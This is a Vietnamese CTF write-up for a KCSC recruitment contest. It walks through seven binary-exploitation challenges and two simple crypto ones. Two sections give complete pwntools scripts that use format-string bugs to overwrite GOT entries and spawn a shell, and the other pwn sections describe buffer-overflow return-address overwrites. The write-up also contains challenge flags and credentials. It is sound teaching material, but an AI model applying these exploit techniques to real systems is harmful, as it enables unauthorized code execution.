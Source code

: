 ## TUYỂN THÀNH VIÊN KMA 16/01/2022
## I.PWN

<details>
<summary>1. Cat </summary>
	
**Tóm tắt đề :**
Một địa chỉ để kết nối bằng netcat : `nc 146.190.115.228 9994`
Một file *cat* để chạy trên linux

**Ý tưởng :**
- Đầu tiên mình sử dụng terminal kết nối với địa chỉ trên, nhận thấy yêu cầu nhập username và password
![](https://i.imgur.com/dG0sl79.png)
- Để hiểu rõ hơn về cách server check 2 yếu tố trên nên mình sài ghidra để decompile file cat

![](https://i.imgur.com/3Zf5DJr.png)

- Sau đó mình vào main để đọc code và nhận thấy chương trình hoạt động như sau:
	1.  Mở file flag từ server -> nhập username, pasword -> so sánh username với "KCSC_4dm1n1str4t0r" , password với "wh3r3_1s_th3_fl4g"
	Chỗ password của thằng ghidra nó không ghi thẳng ra cho mình mà mình phải tự dịch đoạn hex này ra :

	 [![https://i.imgur.com/MGd2eIH.png](https://i.imgur.com/MGd2eIH.png "https://i.imgur.com/MGd2eIH.png")](https://i.imgur.com/MGd2eIH.png "https://i.imgur.com/MGd2eIH.png")

	2. Sau khi check xong sẽ yêu cầu nhập xâu secret với độ dài 512 ký tự rồi xuất ra. Nhận thấy có mùi buffer overflow đâu đây vì nếu nhập xâu lớn hơn độ dài trên thì khi xuất ra sẽ có nguy cơ tràn qua biến chứa flag -> bắt đầu khai thác
- Mình làm theo ý tưởng trên và thu được flag `KCSC{w3ll_d0n3_y0u_g0t_my_s3cr3t_n0w_d04942f299}`

![](https://i.imgur.com/1BL4A1H.png)

</details>

<details>
<summary>2. Treasure</summary>
	
**Tóm tắt đề :**
Đề cho một file *treasure* để chạy trên linux

**Ý tưởng :**
- Mình tải về sau đó chạy thử thì ra part 1 :
![](https://i.imgur.com/KcmheSj.png)

- Mình thử đưa vào IDA và thu được part 2

![](https://i.imgur.com/F34bUVe.png)

- Part 3 thì mình sài strings trong terminal của linux thử coi có flag không (ai ngờ có thiệt)

![](https://i.imgur.com/ZstQv88.png)

- Ghép lại ta được flag là `KCSC{4_t1ny_tr34sur3_27651d2df78e1998}`

</details>

<details>
<summary>3. overthewrite</summary>

**Disclamer:**
Cuộc thi đã kết thúc và mình chỉ có duy nhất file ELF để chạy trên linux làm lại, không có connect bằng nc. 

**Tóm tắt đề:**
1 file overthewrite để chạy trên linux

**Ý tưởng:**
- Đầu tiên mình sài ida decompile để có pseudocode

![](https://i.imgur.com/zEC752E.png)

- Nhìn qua ta thấy được control flow như sau : Nhập key -> check lần lượt các biến v9,v8,v7,s1 -> nếu khác trong quá trình check sẽ thoát ra -> nếu đúng hết sẽ có được shell.
- Do đó để có được shell ta cần cho các biến v9,v8,v7,s1 lần lượt bằng `0x13371337`,` 0xDEADBEEFCAFEBABE`,`0x215241104735F10F`,`Welcome to KCSC`
- Dựa vào source ta thấy biến buf chỉ có 32 byte mà nhập tới 80 byte -> buffer overflow
- Dựa vào ida ta có thứ tự các biến trong stack như sau: 

![](https://i.imgur.com/w0L7xHw.png)

- Do đó ta sẽ viết script để khai thác

![](https://i.imgur.com/j69oMBZ.png)

- Chạy thử script trên ta bị lỗi. Để hiểu rõ hơn ta sẽ debug

![](https://i.imgur.com/KdK5cQK.png)

- Nhìn hình trên ta thấy tại `0x007fff0563c490` tức `rsp + 20h` hay biến s1 ta có đc hex `0x20656d6f636c6557` decode qua sẽ thu được string `  emocleW` (đảo ngược do little endian)
- Tiếp theo tại `0x007fff0563c498` tức `rsp + 28h` hay biến v6 ta có được hex `414353434b206f74 ` tức là string `ACSCK ot`. Ủa tại sao sai? Hàm strcmp hoạt động như thế nào?. Ta sẽ phân tích hàm strcmp.
- Hàm strcmp sẽ so sánh từng ký tự trong string này với từng ký tự trong string kia đến khi nào gặp ký tự thông báo hết string hoặc string này dài hơn string kia sẽ dừng. Ký tự báo hết string đó chính là` \0`. Do ta đã overflow qua biến v6 nên hàm nó cứ tiếp tục so sánh mà không có ký tự dừng nên dẫn đến sai. Do đó ta sẽ dành 1 byte để encode ` \0`
- Sửa lại script ta đã có được shell

![](https://i.imgur.com/x1IXSgb.png)

</details>

<details>
<summary>4. TheLastOne</summary>
	
**Disclamer:**
Cuộc thi đã kết thúc và mình chỉ có duy nhất file ELF để chạy trên linux làm lại, không có connect bằng nc. 

**Tóm tắt đề:**
- Một file thelastone để chạy trên linux

**Ý tưởng:**
- Đầu tiên mình sài ida để decompile file ra

![](https://i.imgur.com/8t9GrbK.png)

- Nhận thấy control flow của chương trình như sau: Nhận input từ người dùng, tuỳ vào input(1->6) rồi xử lý tương ứng
- Sau đó mình vào từng case để xem:
+ Case 1: gọi hàm` set_name` và set input bằng hàm read_str. Mình đã xem code mẫu của hàm read_str nhưng khá khó hiểu nên tạm thời bỏ qua case này.
+ Case 2: gọi hàm `get_name` và in ra tên. Tạm thời chưa có gì đặt biệt
+ Case 3: gọi hàm `find_food`. Hàm này để vào làm rối thôi chứ không làm gì đặc biệt.
+ Case 4: gọi hàm  `kill_zombie`. Hàm này mỗi lần kêu thì sẽ trừ biến đếm. Có nguy cơ tràn biến nhưng chưa thấy gì đặc biệt
+ Case 5: gọi hàm ` find_survivor`. Hàm này bị overflow vì tạo v1 76 byte nhưng khi nhập tới 88 byte (maybe ???)

![](https://i.imgur.com/MoJHe1G.png)

-> Kết luận: sẽ đi khai thác hàm `find_survivor` vì hàm này đang tình nghi số 1, sẽ thử các case khác khi bí.
- Quan sát thấy có 1 hàm không được gọi ở đâu hết là `unknown`. Hàm này sẽ lấy shell. Vậy ta sẽ lợi dụng buffer overflow để chuyến hướng hoạt động của chương trình vào hàm này
- Cùng sài gdb để debug. Ta sẽ đặt breakpoint ở `nop` của hàm `find_survivor`.  Sau đó ta `run`, chọn 5 rồi tạo input 88 chữ A coi thử tràn tới đâu.

![](https://i.imgur.com/L1NrtOU.png)

- Sau đó ta `ni` đến chỗ `ret` rồi dừng ở đây, ta xem thử stack. Nhận thấy vẫn 	chưa tràn qua tới địa chỉ mà `rip` đang trỏ tới

![](https://i.imgur.com/wuGcWH5.png)

- Debug lại chương trình và lần này input 92 byte (4 byte để ghi địa chỉ, 88 byte padding). Nhận thấy chương trình trả lại 3 ký tự tức là input là 89 byte. Vậy ta chỉ có thể lợi dụng byte cuối để ghi đè thành địa chỉ của hàm `unknown`

![](https://i.imgur.com/2pQUXqB.png)

- Tới đây ta lấy địa chỉ của hàm `unknown` và địa chỉ ret trong ô nhớ kia so sánh. Vì cần phải khác 1 byte cuối mới gọi được hàm `unknown`

![](https://i.imgur.com/urwhI2I.png)

- Đúng là chỉ khác 1 byte cuối, vậy thì tiếp theo ta `disass unknown` để xem nên đưa vào đâu tránh lỗi `xmm0`. Ở đây mình chọn `6f` là byte cuối.

![](https://i.imgur.com/g8U9C4o.png)

- Đến đây ý tưởng đã hoàn thành và ta viết script để khai thác.

![](https://i.imgur.com/ExAGOip.png)

- Chạy và ta có được shell.

![](https://i.imgur.com/54cXeGL.png)

</details>

<details>
<summary>5. ShortJumps</summary>

**Disclamer:**
Cuộc thi đã kết thúc và mình chỉ có duy nhất file ELF để chạy trên linux làm lại, không có connect bằng nc. 

**Tóm tắt đề:**
- 1 file shortjumps để chạy trên linux

**Ý tưởng:**
- Đầu tiên mình sài ida để decompile file 32 bit nhưng không được vì sài bản lậu =)), nên mình đã sài ghidra nhưng nó đưa code tạp nham quá do đó mình sài binary ninja để coi thêm.

![](https://i.imgur.com/dNyoxvc.png)

- Nhận thấy control flow của chương trình như sau: nhập tên -> nhập Y/n -> nhập dream. Đơn giản chỉ vậy
- Tiếp theo mình coi từng biến thì nhận thấy biến `local_80` này bị buffer overflow do khai báo có 80 byte mà sài tới 140 bytes

![](https://i.imgur.com/A9CISV7.png)

- Bên cạnh đó còn có 2 hàm khai báo nhưng không được gọi trong chương trình là` jmp1` và` jmp2` . Check thử từng hàm thì thấy biến `jmp` sẽ tăng lên 1 nếu đầu vào là `0xdeadbeef`, hàm `jmp2` đòi `jmp` phải là 1 mới cho shell. do đó ý tưởng hiện tại sẽ là overwrite ret address trên stack bằng biến ` local_80`. Thứ tự nhảy sẽ là jmp1 - > jmp2. Ta sẽ triển khai ý tưởng trên
- Đầu tiên ta debug bằng gdb để lấy offset. Ta sẽ input full 140 byte. Khi chạy tới ret ta xem `esp` trên stack trên địa chỉ đang trỏ về string `gaabhaabiaabjaab` ta sẽ tìm ra offset là 124. Vậy ta cần fill 124 byte trước khi gửi địa chỉ để ret vào.

![](https://i.imgur.com/B1N1xCr.png)

- Sau đó ta đi tìm địa chỉ của `jmp1`, sẵn tìm `jmp2` luôn. Ta được địa chỉ của jmp1 và jmp2 lần lượt là `0x80492b4` và `0x80492e0`

![](https://i.imgur.com/ZpvhBqJ.png)

- Tiếp theo ta viết script để khai thác rồi debug tiếp.  Nhận thấy hàm đã ret thành công sang `jmp1`

![](https://i.imgur.com/itbP1z6.png)
![](https://i.imgur.com/WEmTHGF.png)

- Nhận thấy ta cần fill thêm 4 bytes nữa để so sánh với `0xdeadbeef`, ta sẽ sửa lại code.

![](https://i.imgur.com/DRikHKu.png)
![](https://i.imgur.com/td2k679.png)

- Lại đi debug tiếp, lần này ta thấy đã thành công so sánh nhưng lại cần phải sài thêm 4 byte để ghi ret chuyển tiếp qua `jmp2`

![](https://i.imgur.com/zEyqYyC.png)

- Ta lại thấy `esp` lúc này lại chính là 4 chữ A mới fill trong script. Tới đây biến payload đã là 140 byte không thể overflow gì thêm, do đó khi gọi hàm `jmp2` sẽ không thể làm gì được. Ta cần chính lại ý tưởng là `jmp1 -> main -> jmp2`

![](https://i.imgur.com/zEyqYyC.png)

- Đổi script 4 chữ A lại thành địa chỉ `main`, cùng với lặp lại quá trình tương tự để nhảy qua `jmp2`. Tới đây việc tìm offset tương tự `jmp1`, riêng việc tính toán để có bài toán như sau:

![](https://i.imgur.com/868FouH.png)

- Ta sài microsoft calculator để tính bằng hex =)). Sau đó encode lại và gửi bằng script.

![](https://i.imgur.com/AKv6XJr.png)
![](https://i.imgur.com/VIfe9AM.png)

- Chạy và ta có được shell 

![](https://i.imgur.com/BiAWGrz.png)


</details>

<details>
<summary>6. FMT XMASTER</summary>
	
**Disclamer:**
Cuộc thi đã kết thúc và mình chỉ có duy nhất file ELF để chạy trên linux làm lại, không có connect bằng nc. 

**Tóm tắt đề :**
- file `chall`
- file ` ld-linux-x86-64.so.2`
- file `libc.so.6`

**Ý tưởng :**
- Đầu tiên ta sài lệnh `pwninit` để tự tạo file mới liên kết với `libc` và `linker` đề cho
- Kế tiếp ta decompile bằng IDA

![](https://i.imgur.com/1DT0YEP.png)

- Chương trình chạy như sau: random 2 số `v6` và `buf`, yêu cầu nhập `v7`, nếu `v6 + buf = v7` thì có shell. Bên cạnh đó bài cũng có lỗi format string chỗ kêu nhập tên.
- Tiếp theo ta checksec. Nhận thấy có Partial RELRO, no PIE và đây là file 64 bit nên ta có thể overwrite GOT bằng format string. 

![](https://i.imgur.com/Vj5tGXQ.png)

- Ý tưởng hiện tại như sau: chuyển exit(0) thành main thực thi hàm main lần 2, lần 2 thì overwrite printf thành system, lần 3 thì nhập /bin/sh để lấy shell. 
- Việc có no PIE sẽ giúp ta làm GOT đơn giản nhiều do khi lấy địa chỉ mà plt reference qua luôn tĩnh => Lấy luôn cái tĩnh đó sài khỏi leak libc (bài này mình gdb thấy offset của got không đổi đối với vài hàm) hay leak exe.

![](https://i.imgur.com/zBISpBM.png)

- Hay nói cách khác ở địa chỉ `0x404030` luôn reference qua `0x401060`. Cái `0x401060` sẽ thay đổi nếu trước đó hàm `printf` đã được gọi (do plt update) nhưng `0x404030` sẽ luôn giữ nguyên khi chạy chương trình bất cứ lúc nào. 
- Ta viết script cho lần chạy đầu như sau :
![](https://i.imgur.com/cfZcNJ7.png)
- Mình` ljust 0x20` vì cop code cũ bê qua lười sửa =)) chứ thật ra padding sao cho địa chỉ cần ghi nằm trọn trong 1 ô nhớ 8 byte là đủ. Mình overwrite địa chỉ `0x404058` tức là `exit`  thành địa chỉ của `main`

![](https://i.imgur.com/v8ih8jV.png)

- Tới vòng lập thứ 2 thì mình chuyển cái địa chỉ `0x404030` của `printf` thành địa chỉ của `system`. Ở đây mình ghi 4 byte cuối của `printf` trước rồi `0x404030 + 4` để ghi 2 byte đầu. Quá trình tìm offset cũng tương tự trên thôi do chép chung 1 code =)).

![](https://i.imgur.com/rlKz9Y1.png)

- Lần thứ 3 thì nhập `/bin/sh` rồi ghi đại cái đoán kia thôi vì trước sau cũng lấy được shell rồi.

![](https://i.imgur.com/OpjZvfT.png)

- Script :
``` python

from pwn import * 
exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")

printf_add = 0x401060
exit_add = 0x4010b0
system_add = 0x401050
main_add = exe.sym['main']

p = process(exe.path)

payload = f'%{main_add}c%16$n'.encode() 
payload = payload.ljust(0x20,b'A')
payload += p64(0x404058)
p.sendlineafter(b'your name:\n',payload)
p.sendlineafter(b'a gift:\n',b'5')

payload=b'%16$hn'
payload += f'%{system_add}c%17$n'.encode()
payload = payload.ljust(0x20,b'A')
payload += p64(0x404030+4) 
payload += p64(0x404030) 
p.sendlineafter(b'your name:\n',payload)
p.sendlineafter(b'a gift:\n',b'5')

p.interactive()

```
</details>
<details>
<summary>7. XFmasTree</summary>
	
**Tóm tắt đề :**

- 1 file `chall`
- 1 file  `ld-linux-x86-64.so.2`
- 1 file `libc.so.6`

**Ý tưởng :**

-  Đầu tiên ta sài lệnh `pwninit` để tự tạo file mới liên kết với `libc` và `linker` đề cho
- Kế tiếp ta decompile bằng IDA

![](https://i.imgur.com/yyuXc8R.png)

- Chương trình hoạt động như sau : chọn option rồi thực hiện. Trong đó ta chỉ quan tâm tới option 1 vì cái thứ 2 bịp =)). Ở đây có lỗi format string trong hàm `payload`

![](https://i.imgur.com/7EYxpHL.png)

- Kế tiếp ta `checksec`. Nhận thấy có Partial RELRO, no PIE và đây là file 64 bit nên ta có thể overwrite GOT bằng format string. 

![](https://i.imgur.com/Ualkoc5.png)

- Riêng bài này thì ta sẽ leak `libc` để tính offset, khỏi leak exe vì exe static do `no PIE`. Vậy ý tưởng sẽ như sau : chạy lần 1 leak `libc` -> chạy lần 2 overwrite `printf` thành `system` và lần 3 lấy shell
- Ta viết script khúc đầu như sau: 

![](https://i.imgur.com/hkBONkW.png)

- Mình leak ở 37$p vì sau 36 địa chỉ kể tử stack, đây là địa chỉ của `__libc_start_call_main`. Mình trừ cho 171408 vì đây là offset của cái địa chỉ mới leak kia tới base

![](https://i.imgur.com/YMHQp4V.png)

- Tiếp theo ta chuyển `printf` thành `system`. Việc tính offset thì sài gdb rồi soi tương tự bài kia thôi.

![](https://i.imgur.com/jsUREJo.png)

- Lần chạy cuối cùng nhập /bin/sh để lấy shell

![](https://i.imgur.com/9pgGhon.png)

- Script :

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")


p = process(exe.path)
p.sendlineafter(b'>> ',b'1') 
p.sendlineafter(b'Enter your payload: ',b'%37$p')
p.recvuntil(b'submitted\n')
libc_leak = int(p.recvline()[:-1],16)
libc.address = libc_leak - 171408 
printf_add = exe.got['printf']
print('libc_leak: ',hex(libc_leak))
print('calculated libc address: ',hex(libc.address))
print('printf got address: ',hex(printf_add))
print('system address : ',hex(libc.sym['system']))

p.sendlineafter(b'>> ',b'1') 
part1 = libc.sym['system'] & 0xff
part2 = libc.sym['system'] >> 8 & 0xffff
payload = f'%{part1}c%10$hhn'.encode()
payload += f'%{part2-part1}c%11$hn'.encode()
payload = payload.ljust(0x20,b'L')
print(payload)
payload += p64(printf_add) + p64(printf_add+1)
p.sendlineafter(b'Enter your payload: ',payload)
p.interactive()

```

</details>



## II.Crypto
<details>
<summary>1.Tet_is_ya_best</summary>
	
**Tóm tắt đề :**
Đề cho file *output.txt*

**Ý tưởng :** 

- Mình tải file về xem thử, sau đó lên https://www.dcode.fr/cipher-identifier check xem mã hoá gì

![](https://i.imgur.com/SH1795U.png)

- Thử lần lượt từng cái trong phần suggestions, nhận thấy bên Mono-alphabetic Substitution cho ra kết quả đọc được -> có luôn flag là
`KCSC{TET_TET_TET_TET_DEN_ROI__CHUC_CAC_BAN_NAM_MOI_THAT_NHIEU_SUC_KHOE__LUV_FROM_LULUUUUUUUUUUUU}`
Ngặc cái đề thay thế chữ thường mà trang này decode ra in hoa nên mình chuyển lại chữ thường mà giữ nguyên in hoa KCSC khúc đầu
Flag là `KCSC{tet_tet_tet_tet_den_roi__chuc_cac_ban_nam_moi_that_nhieu_suc_khoe__luv_from_luluuuuuuuuuuuu}`

![](https://i.imgur.com/9TvNvRL.png)

</details>
<details>
<summary>2.ezenc</summary>

**Tóm tắt đề :**
Đề cho file *chall.txt*

**Ý tưởng :**
- Bài này thì mình cũng tải file về xem thử nhưng lần này vô thử cyberchef làm cho nhanh
- Mình chọn depth = 10 và known text là KCSC thì ra luôn flag là `KCSC{Encoding_Is_Cool!!!}`


![](https://i.imgur.com/IIn5C3s.png)


</details>

